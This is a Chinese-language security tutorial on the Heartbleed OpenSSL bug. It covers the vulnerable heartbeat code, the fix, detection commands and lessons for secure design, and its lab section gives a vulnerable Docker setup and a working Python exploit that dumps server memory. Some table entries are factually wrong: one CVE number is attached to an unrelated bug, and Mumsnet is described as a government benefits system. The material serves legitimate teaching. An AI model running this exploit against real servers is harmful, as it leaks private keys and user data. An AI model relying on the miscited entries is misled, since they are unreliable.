


## 案例二：Heartbleed漏洞（CVE-2014-0160）

Heartbleed是互联网安全史上最臭名昭著的漏洞之一。它潜伏在OpenSSL——这个支撑全球约17%加密Web流量的基础密码库——中长达两年零三个月，期间任何使用受影响版本的服务器都在不知不觉中向攻击者敞开了内存大门。理解Heartbleed，不仅是理解一个具体的代码缺陷，更是理解"元数据信任危机"这一安全思维盲点的经典教材。

---

### 背景与时间线

#### 什么是Heartbeat扩展

TLS（Transport Layer Security）协议在RFC 6520中定义了一个Heartbeat扩展，用于保持TLS连接活跃。其工作原理非常简单：

1. 发送方（Client或Server）发送一个HeartbeatRequest消息，包含有效载荷（payload）和一个长度字段
2. 接收方原封不动地将有效载荷回传给发送方
3. 发送方确认连接仍然存活

这个机制的初衷是避免频繁重新建立TLS握手（握手开销很大），尤其对长连接场景（如VPN、即时通讯）有显著性能价值。

#### 漏洞发现与披露时间线

| 时间 | 事件 |
|------|------|
| 2011年12月31日 | OpenSSL开发者Robin Seggelmann提交包含漏洞的代码（commit `4817504`） |
| 2012年3月14日 | OpenSSL 1.0.1发布，引入了有漏洞的Heartbeat实现 |
| 2014年3月21日 | Google安全团队的Neel Mehta独立发现漏洞 |
| 2014年4月1日 | Codenomicon安全团队（芬兰）也独立发现该漏洞 |
| 2014年4月7日 | OpenSSL发布修复版本1.0.1g，漏洞正式公开（CVE-2014-0160） |
| 2014年4月7日~至今 | 全球大规模证书吊销、密码更换、安全补丁部署 |

**关键事实**：漏洞在生产环境中存在了约 **788天**（2012年3月至2014年4月），在此期间所有运行OpenSSL 1.0.1至1.0.1f版本的服务器均受影响。

---

### 漏洞原理深度剖析

#### TLS Heartbeat协议消息格式

根据RFC 6520，Heartbeat消息的二进制结构如下：

```text
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|    Type (1)   |         Payload Length (2)                     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                        Payload (variable)                     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                        Padding (variable)                     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

- **Type**：1 = request，2 = response
- **Payload Length**：2字节，最大值65,535
- **Payload**：实际数据内容
- **Padding**：至少16字节的随机填充

#### 有漏洞的代码

以下是OpenSSL中ssl/d1_both.c的原始漏洞代码（已简化）：

```c
int dtls1_process_heartbeat(SSL *s)
{
    unsigned char *p = &s->s3->rrec.data[0], *pl;
    unsigned short hbtype;
    unsigned int payload;
    unsigned int padding = 16; /* 最小padding */

    /* 读取心跳类型（1字节） */
    hbtype = *p++;
    /* 读取声称的payload长度（2字节）——这是攻击者控制的字段 */
    n2s(p, payload);
    pl = p;  // pl指向实际的payload数据起始位置

    // 漏洞：从未验证 payload <= 实际剩余数据长度

    if (hbtype == TLS1_HB_REQUEST)
    {
        unsigned char *buffer, *bp;
        /* 根据攻击者声称的长度来分配响应缓冲区 */
        buffer = OPENSSL_malloc(1 + 2 + payload + padding);
        bp = buffer;

        /* 写入响应类型 */
        *bp++ = TLS1_HB_RESPONSE;
        /* 写入长度 */
        s2n(payload, bp);
        /* 复制payload——但这里会越界读取！ */
        memcpy(bp, pl, payload);  // ← 核心漏洞
        // 如果payload=65535而实际只有5字节，
        // 这里会从pl位置读取65535字节，
        // 多出来的65530字节全部来自进程内存

        /* 加入padding */
        RAND_pseudo_bytes(bp, padding);

        dtls1_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, 3 + payload + padding);
    }
    // ...
}
```

#### 攻击过程可视化



**每次攻击可泄露最多64KB内存**，攻击者可以反复发送心跳请求，每次可能读到不同的内存区域，逐步拼凑出服务器进程的全部内存内容。

#### 为什么会发生——根因分析

这个漏洞的本质是一个极其简单的逻辑错误：**信任了客户端声明的长度，而没有与实际数据长度做交叉验证**。

正常流程中：
- 客户端发送：`PayloadLength=5, Data="hello"`
- 服务端应验证：`payload(5) <= 实际数据长度(5)` → 合法，继续处理

漏洞流程中：
- 攻击者发送：`PayloadLength=65535, Data="hello"`（实际5字节）
- 服务端**未验证**：直接用`65535`作为`memcpy`的长度参数
- 结果：从`"hello"`后面继续读取65530字节的任意内存数据

---

### 安全思维分析

#### 1. 元数据信任危机

Heartbleed暴露了安全领域一个深层思维盲点：**我们倾向于信任描述数据的数据（元数据），甚于信任数据本身**。

开发者本能地会对"数据内容"做验证（过滤特殊字符、检查格式），但对"数据声称自己有多大""数据声称自己是什么类型"这类元数据，往往不假思索地接受。这在安全设计中是一个危险的假设。

**元数据信任的其他案例**：

| 场景 | 元数据 | 后果 |
|------|--------|------|
| Heartbleed | Payload Length字段 | 内存越界读取 |
| ImageTragick（CVE-2016-3714） | 图片文件中的命令注入标记 | 远程代码执行 |
| Zip Slip | ZIP文件中的文件名路径 | 目录遍历写入任意文件 |
| SQL注入（类型混淆） | 参数声称是数字 | SQL语句拼接注入 |

**安全思维修正**：对任何从外部接收的信息——无论是数据内容还是元数据——都应实施**零信任验证**。

#### 2. 信任边界意识的缺失

从安全架构角度看，Heartbleed违反了一个基本原则：**客户端请求不应决定服务端读取内存的范围**。


正确的设计是：服务端读取的字节数**必须**由服务端自己决定——即实际接收到的数据长度，而非客户端声称的长度。

#### 3. 代码审查的局限性

这段漏洞代码在2011年12月提交，经历了两年多的公开代码审查才被发现。这揭示了几个重要事实：

- **简单的逻辑错误比复杂的算法缺陷更难被发现**：审查者倾向于关注加密算法实现、内存管理等"显眼"的复杂问题，而对一个简单的长度校验缺失视而不见
- **单元测试的盲区**：常规测试关注"正常路径"——发送合法心跳、收到正确回复。很少有人测试"发送声称长度为65535但实际只有5字节"这种异常路径
- **模糊测试（Fuzzing）的价值**：这类漏洞恰恰是模糊测试最擅长发现的类型，但当时OpenSSL项目缺乏系统化的模糊测试覆盖

#### 4. "足够好"的安全幻觉

OpenSSL当时已经有超过15年的历史，被广泛认为是"经过验证的安全代码"。Heartbleed打破了这种幻觉：

- 代码成熟不等于代码安全
- 广泛使用不等于经过充分测试
- 开源不等于已经被充分审查（"足够多的眼球"假设有前提条件——这些眼球需要具备安全专业知识）

---

### 影响范围与实际危害

#### 受影响的版本

| 软件 | 受影响版本 | 不受影响版本 |
|------|-----------|-------------|
| OpenSSL | 1.0.1 ~ 1.0.1f | 1.0.1g及以后，1.0.0分支，0.9.8分支 |
| Debian | 7.x (wheezy) | 6.x (squeeze) |
| Ubuntu | 12.04/12.10/13.04/13.10 | 10.04 |
| CentOS/RHEL | 6.x, 7.x | 5.x |
| FreeBSD | 10.0 | 9.x及以前 |

#### 实际危害数据

- **全球约50万台（有估计高达200万台）Web服务器**在漏洞公开时仍然受影响
- **约17%的SSL/TLS加密Web服务器**（约50万个证书）被认为需要重新签发
- 加拿大税务局（CRA）报告约900个纳税人的社保号码被窃取
- 英国育儿津贴系统（Mumsnet）遭到入侵
- 多家大型网站（Yahoo、Imgur、Stack Overflow、Flickr等）被迫要求用户更改密码

#### 检测是否受影响

漏洞公开后的紧急排查命令（当时的工具链）：

```bash
# 方法1：使用openssl命令行直接检测
openssl s_client -connect target:443 -tlsextdebug 2>&1 | grep -i heartbeat

# 如果输出中有 "heartbeat"，说明服务器支持心跳扩展，可能受影响

# 方法2：使用专门的检测脚本
# 当年广泛使用的Python检测脚本核心逻辑：
python3 -c "
import struct, socket, ssl

def check_heartbleed(host, port=443):
    # 发送TLS ClientHello with heartbeat extension
    # 然后发送恶意HeartbeatRequest
    # 如果收到超过实际数据长度的响应 → 存在漏洞
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(5)
    sock.connect((host, port))

    # TLS ClientHello with heartbeat (type 15)
    client_hello = bytes.fromhex(
        '16 03 02 00  dc 01 00 00 d8 03 02 53'  # TLS record header
        '43 9b 67 5a 00 00 00 00 00 00 00 00'  # Random
        # ... 简化，实际需要完整构造
    )
    # 省略完整实现，仅展示思路
"
```

```bash
# 方法3：使用Nmap脚本（最可靠的批量检测方式）
nmap -sV --script ssl-heartbleed -p 443 <target>

# 输出示例（存在漏洞时）：
# | ssl-heartbleed:
# |   VULNERABLE:
# |   The Heartbleed Bug is a serious vulnerability in OpenSSL
#     State: VULNERABLE
```

---

### 修复方案与防御措施

#### 代码层面的修复

OpenSSL在1.0.1g版本中的修复极为简洁——仅增加了两行长度验证：

```c
// 修复前（漏洞代码）
n2s(p, payload);    // 读取攻击者声称的长度
pl = p;              // 直接信任

// 修复后（安全代码）
n2s(p, payload);    // 读取攻击者声称的长度
if (1 + 2 + payload + 16 > s->s3->rrec.length)
    return 0;       // 如果声称的长度超出实际记录长度，直接拒绝
pl = p;
```

修复的核心思想：**任何从客户端接收的长度字段，必须与实际接收到的数据长度做交叉验证**。

#### 运营层面的应急响应

Heartbleed公开后的标准应急响应流程：



**为什么必须重新生成私钥？** 因为Heartbleed允许攻击者读取服务器进程内存，而私钥在TLS握手过程中一定驻留在内存中。如果私钥已泄露，即使修补了Heartbleed漏洞，攻击者仍可以用窃取的私钥解密所有过去的通信（如果未使用前向保密）和冒充服务器。

#### 系统层面的加固

```bash
# 1. 确认当前OpenSSL版本
openssl version -a

# 2. 升级OpenSSL（以Debian/Ubuntu为例）
sudo apt-get update
sudo apt-get install --only-upgrade openssl libssl1.0.0

# 3. 验证升级结果
openssl version
# 应显示 1.0.1g 或更高

# 4. 重启所有依赖OpenSSL的服务
sudo systemctl restart nginx apache2 postfix dovecot

# 5. 验证心跳扩展已禁用或已修补
openssl s_client -connect localhost:443 -tlsextdebug 2>&1 | grep heartbeat
```

#### 长期防御策略

| 策略 | 说明 | 实施建议 |
|------|------|---------|
| 启用前向保密（PFS） | 即使私钥泄露也无法解密历史通信 | 在TLS配置中优先使用ECDHE密钥交换 |
| 内存安全语言 | Rust等语言在编译期消除此类漏洞 | 新项目用Rust编写加密相关组件 |
| 系统化模糊测试 | 对所有协议解析器进行模糊测试 | 使用AFL、libFuzzer、OSS-Fuzz |
| 最小化攻击面 | 禁用不需要的TLS扩展 | 除非业务需要，否则不启用Heartbeat |
| 依赖项监控 | 持续跟踪依赖库的安全公告 | 使用Dependabot、Snyk等工具 |

---

### 动手实验：在隔离环境中复现Heartbleed

> **警告**：以下实验仅限在隔离的虚拟机或Docker容器中进行，用于学习目的。未经授权对他人系统进行测试是违法行为。

#### 实验环境搭建

```dockerfile
# Dockerfile - Heartbleed实验环境
FROM ubuntu:14.04

RUN apt-get update && apt-get install -y \
    apache2 \
    openssl \
    libssl1.0.0 \
    && rm -rf /var/lib/apt/lists/*

# 配置一个使用受影响版本OpenSSL的HTTPS服务器
RUN openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
    -keyout /etc/ssl/private/server.key \
    -out /etc/ssl/certs/server.crt \
    -subj "/CN=heartbleed-lab"

RUN a2enmod ssl
RUN a2ensite default-ssl

EXPOSE 443
CMD ["apachectl", "-D", "FOREGROUND"]
```

#### 使用Python复现核心逻辑

```python
#!/usr/bin/env python3
"""
Heartbleed PoC - 仅用于教育目的
在隔离环境中演示CVE-2014-0160的利用过程
"""
import struct
import socket
import ssl

def create_client_hello():
    """构造包含Heartbeat扩展的TLS ClientHello"""
    # TLS Record Header
    content_type = b'\x16'          # Handshake
    version = b'\x03\x02'          # TLS 1.1
    # ClientHello body will be filled later

    # Handshake Header
    handshake_type = b'\x01'        # ClientHello

    client_version = b'\x03\x02'   # TLS 1.1
    client_random = b'\x00' * 32   # 32字节随机数（简化）

    # Session ID
    session_id_length = b'\x00'

    # Cipher Suites
    cipher_suites_length = struct.pack('>H', 2)
    cipher_suite = b'\x00\xff'     # TLS_EMPTY_RENEGOTIATION_INFO_SCSV

    # Compression Methods
    compression_length = b'\x01'
    compression_method = b'\x00'   # null

    # Extensions - 关键：包含Heartbeat扩展
    heartbeat_extension = (
        b'\x00\x0f'                # Extension type: heartbeat (15)
        b'\x00\x01'                # Extension length: 1
        b'\x01'                    # peer_allowed_to_send
    )
    extensions_length = struct.pack('>H', len(heartbeat_extension))
    extensions = extensions_length + heartbeat_extension

    # 组装ClientHello
    client_hello_body = (
        client_version + client_random + session_id_length +
        cipher_suites_length + cipher_suite +
        compression_length + compression_method +
        extensions
    )
    handshake_length = struct.pack('>I', len(client_hello_body))[1:]  # 3字节
    handshake = handshake_type + handshake_length + client_hello_body

    # TLS Record
    record_length = struct.pack('>H', len(handshake))
    return content_type + version + record_length + handshake


def create_heartbeat_malicious():
    """构造恶意的Heartbeat请求：声称65535字节但实际只有5字节"""
    heartbeat_type = b'\x01'                   # HeartbeatRequest
    payload_length = struct.pack('>H', 65535)  # 声称65535字节
    actual_payload = b'hello'                   # 实际只有5字节

    record_type = b'\x18'         # Heartbeat
    record_version = b'\x03\x02' # TLS 1.1
    record_data = heartbeat_type + payload_length + actual_payload
    record_length = struct.pack('>H', len(record_data))

    return record_type + record_version + record_length + record_data


def exploit(target_host, target_port=443):
    """执行Heartbleed检测/利用"""
    print(f"[*] 连接到 {target_host}:{target_port}")

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(5)
    sock.connect((target_host, target_port))

    # Step 1: 发送ClientHello
    client_hello = create_client_hello()
    sock.send(client_hello)
    print("[*] 发送ClientHello（含Heartbeat扩展）")

    # 接收ServerHello等握手消息
    server_response = sock.recv(4096)
    print(f"[*] 收到服务器响应: {len(server_response)} 字节")

    # Step 2: 发送恶意Heartbeat
    heartbeat = create_heartbeat_malicious()
    sock.send(heartbeat)
    print("[*] 发送恶意Heartbeat请求（声称65535字节，实际5字节）")

    # Step 3: 读取泄露的内存
    leaked_data = sock.recv(65535)
    sock.close()

    if len(leaked_data) > 7:  # 正常应只有 type(1) + length(2) + "hello"(5) = 8字节
        print(f"\n[!] 漏洞存在！收到 {len(leaked_data)} 字节数据")
        print(f"[!] 泄露数据（hex）: {leaked_data[:64].hex()}")
        print(f"[!] 泄露数据（ascii）: {leaked_data[:64]}")
    else:
        print("[*] 未检测到漏洞（服务器已修补或不支持Heartbeat）")

    return leaked_data


if __name__ == '__main__':
    import sys
    target = sys.argv[1] if len(sys.argv) > 1 else 'localhost'
    exploit(target, 443)
```

---

### Heartbleed的深层影响与行业变革

Heartbleed的影响远超漏洞本身，它推动了整个安全行业的多项结构性变革：

#### 1. OpenSSL项目的治理改革

Heartbleed之前，OpenSSL的核心开发团队仅有极少数全职维护者，代码审查主要依赖志愿者。事件后：

- **Core Infrastructure Initiative (CII)** 成立（后更名为OpenSSF），由Linux基金会主导
- OpenSSL项目获得了大量资金支持（此前年度预算仅不到100万美元）
- 引入了更严格的代码审查流程和持续集成测试
- 系统化的模糊测试被纳入开发流程

#### 2. 密码学工程的反思

Heartbleed直接催生了两个重要项目：

- **BoringSSL**（Google）：从OpenSSL分叉，专注于Google自身需求，大量重写和简化代码
- **LibreSSL**（OpenBSD）：从OpenSSL 1.0.1g分叉，目标是"做OpenSSL该做的事"，删除了大量废弃代码

#### 3. 前向保密（PFS）的普及

Heartbleed暴露了一个关键风险：如果私钥泄露，所有历史通信都可能被解密。这直接推动了PFS的强制部署：

- Google在2011年率先默认启用PFS
- Heartbleed后，Firefox和Chrome开始警告不支持PFS的网站
- 到2015年，PFS已成为TLS配置的行业标准

#### 4. 供应链安全意识觉醒

Heartbleed是"供应链安全"概念在实践中的第一个标志性事件。它让行业意识到：

- **关键基础设施的单点故障**：全球17%的加密流量依赖一个资金不足的小团队维护的代码库
- **传递依赖的风险**：许多应用并不直接使用OpenSSL，但通过间接依赖受到影响
- **SBOM（软件物料清单）的必要性**：Heartbleed后，对"我的软件到底用了哪些库"的关注度显著上升

---

### 触类旁通：类似漏洞模式

Heartbleed的"长度未验证"模式在安全领域反复出现，以下是同一类型漏洞的其他案例：

| 漏洞 | 年份 | 描述 | 与Heartbleed的相似性 |
|------|------|------|---------------------|
| CVE-2015-0204 (FREAK) | 2015 | TLS降级到出口级RSA | 信任客户端/中间人的声明 |
| CVE-2014-3566 (POODLE) | 2014 | SSLv3 padding验证缺陷 | padding字段未被正确验证 |
| CVE-2016-2107 (OpenSSL AES-CBC) | 2016 | AES-CBC padding oracle | 密码学操作中的长度/填充未验证 |
| CVE-2019-1559 (TCP SACK Panic) | 2019 | Linux内核TCP段处理 | 长度字段导致内核内存越界 |

**安全思维提炼**：当你看到"客户端声明X，服务端相信X"的模式时，第一反应应该是："如果客户端撒谎呢？"

---

### 本案例的核心安全思维模型

通过Heartbleed这个案例，我们可以提炼出一个通用的安全思维检查清单：

```mermaid
mindmap
  root((安全思维<br/>检查清单))
    输入验证
      数据内容是否验证?
      元数据(长度/类型)是否验证?
      数据与元数据是否交叉验证?
    信任边界
      哪些信息来自不可信源?
      服务端是否独立决定自己的行为?
      客户端是否影响了服务端的内部状态?
    内存安全
      缓冲区操作的边界是否明确?
      复制长度是否由接收方控制?
      是否使用了安全的内存操作函数?
    审计深度
      代码审查是否覆盖了异常路径?
      是否有模糊测试覆盖?
      是否对"信任"关系做了系统化审查?
```

这个检查清单适用于所有涉及网络协议解析、数据序列化/反序列化、以及任何从外部接收结构化数据的场景。

---

### 常见误区

| 误区 | 纠正 |
|------|------|
| "只有Web服务器受影响" | 任何使用OpenSSL 1.0.1-1.0.1f的TLS服务都受影响，包括邮件服务器、VPN、数据库连接等 |
| "修补后就安全了" | 修补漏洞只是第一步，必须同时重新生成私钥、吊销旧证书、使旧Session失效 |
| "用了HTTPS就不会泄露" | Heartbleed恰恰是通过HTTPS连接本身来泄露数据的，加密通道变成了泄露通道 |
| "这么简单的bug不可能在生产代码中" | 恰恰是最简单的逻辑错误最容易逃过审查，因为审查者关注的是"复杂"的安全问题 |
| "开源软件更安全" | 开源是安全的必要条件但不是充分条件，需要有安全专业知识的审查者和系统化的测试 |

---

### 参考资料

- RFC 6520 - Transport Layer Security (TLS) and Datagram Transport Layer Security (DTLS) Heartbeat Extension
- CVE-2014-0160 - NIST NVD条目
- Codenomicon - The Heartbleed Bug (heartbleed.com)
- OpenSSL Security Advisory - 2014年4月7日
- "The matter of Heartbleed" - 最早的公开分析报告之一
